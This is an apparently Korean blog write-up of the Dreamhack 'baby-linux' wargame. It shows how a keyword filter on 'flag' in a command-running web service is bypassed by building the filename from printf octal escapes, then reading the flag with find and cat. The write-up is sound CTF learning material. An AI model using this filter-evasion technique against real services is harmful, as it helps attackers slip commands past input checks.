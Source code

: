 ```yaml
---
layout: post
category: [wargame, misc]
title: baby-linux
---
```


## [문제](https://dreamhack.io/wargame/challenges/837)
리눅스 명령어를 실행하는 웹 서비스에서 flag.txt 를 찾아 플래그를 획득하면 된다.

## 문제 분석

처음에 무작정 웹사이트에서 루트 디렉토리에서부터 ``flag.txt`` 를 찾는 명령어를 입력해보았다.

```sh
find / | grep flag.txt
```

![NO](/assets/img/2024-05-17-baby-linux/no.png)   

``No!`` 라는 메시지가 떴다.

아마도 ``flag`` 라는 문자열을 필터링하고 있는 것 같다.

```py
# app.py 에서 flag 문자열을 필터링하고 있다.
if 'flag' in cmd:
    return render_template('index.html', result='No!')
```

## 풀이
``regex`` 를 이용하여도 될 것 같지만.. 조금 더 원시적인 방법으로 해결하였다(?)

```sh
find / | grep $(printf '%b%b%b%b%b%b%b%b' '\146' '\154' '\141' '\147' '\56' '\164' '\170' '\164')
```

``flag.txt`` 를 ``printf`` 를 이용하여 ``ASCII`` 코드로 변환하여 입력하였다.

![full path](/assets/img/2024-05-17-baby-linux/full-path.png)   

``/flag.txt`` 의 경로를 확인할 수 있었다.

이후 ``cat`` 명령어를 사용하여 플래그를 획득하였다.

```sh
cat /app/dream/hack/hello/$(printf '%b%b%b%b%b%b%b%b' '\146' '\154' '\141' '\147' '\56' '\164' '\170' '\164')
```

![FLAG](/assets/img/2024-05-17-baby-linux/flag.png)
